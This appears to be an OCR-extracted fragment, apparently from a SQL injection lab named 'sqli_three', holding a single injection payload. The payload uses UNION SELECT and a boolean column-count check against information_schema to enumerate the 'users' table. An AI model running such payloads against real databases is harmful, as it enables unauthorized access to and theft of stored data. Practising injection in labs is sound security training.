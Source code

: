 select * from users where username='nonuser' union select 1,2,3 from information_schema.columns where table_schema='sqli_three' and table_name = 'users'  and 1 = (select if(3 = (select count(column_name) from information_schema.columns where table_schema='sqli_three' and table_name = 'users') , 1 , 4)) -- -